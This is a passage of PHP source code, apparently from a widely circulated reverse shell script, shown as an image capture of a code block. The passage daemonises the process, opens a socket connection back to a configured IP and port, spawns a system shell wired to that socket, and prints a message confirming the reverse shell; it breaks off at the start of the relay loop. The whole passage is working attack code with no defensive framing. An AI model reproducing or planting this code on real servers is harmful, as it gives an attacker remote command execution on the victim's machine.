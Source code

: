 ```php
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
```